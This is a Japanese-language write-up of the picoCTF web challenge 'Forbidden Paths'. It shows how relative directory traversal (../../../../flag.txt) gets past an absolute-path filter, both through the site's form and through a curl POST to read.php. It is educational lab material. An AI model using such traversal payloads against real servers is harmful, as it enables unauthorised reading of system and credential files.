

# picoCTF Writeup: Forbidden Paths

**相対パス**を使いこなそう問題

- ジャンル: Web Exploitation
- 難易度: Medium

## Writeup

問題文はこんな感じです。
>Can you get the flag?
We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
Here's the website.
>flagをとれるかな？
websiteのファイルは/usr/share/nginx/html/にあり、flagは/flag.txtにあるのですが、絶対パスはフィルタリングされてます。フィルターをすり抜けてflagを読めるかな？こちらがwebsiteです。

websiteを見てみます。

表示されているテキストファイルをフォームに打ち込み[Read]ボタンを押すと、そのファイルの中身が表示されます。

このフォームに`/flag.txt`を入れてみましたが、問題文通り`flag`は出てきません。

さて、問題文に戻りますが、**絶対パス**がダメとあります。
なので、**相対パス**を使えばいいのかな？と思いました。

そして、websiteのファイルは`/usr/share/nginx/html/`配下にあって、
今回`/flag.txt`に`flag`が`あるので、相対的にさかのぼっていけばいいのかと。

`..`で一つ上のディレクトリに上がれるので、

`../`で`/usr/share/nginx/`に
`../../`で`/usr/share/`に
`../../../`で`/usr/`に
`../../../../`で`/`に

で最後に`flag`は
`../../../../flag.txt` ですね。


はい、flagが取れました。(一部マスク)
`picoCTF{7h3_p47h_70_5ucc355_XXXXXXXX}`

## CLIからのアプローチもやってみるか
今回はちょっと簡単だったので、コマンドからも`flag`とってみます。
まず、トップページのソースのform部分を確認します。
```
$ curl -s -i http://saturn.picoctf.net:63163/ | grep -A5 form
    <form role="form" action="read.php" method="post">
      <input type="text" name="filename" placeholder="Filename" required></br>
      <button type="submit" name="read">Read</button>
    </form>
  </body>
</html>
```
`finename`をパラメータにして、`read.php`に`POST`していることがわかりました。
`curl`でやってみます。
```
$ curl -s -i -X POST http://saturn.picoctf.net:63163/read.php -d "filename=../../../../flag.txt" | grep pico
    picoCTF{7h3_p47h_70_5ucc355_XXXXXXXX}<br>  </body>
```
`curl`でも`flag`とれました。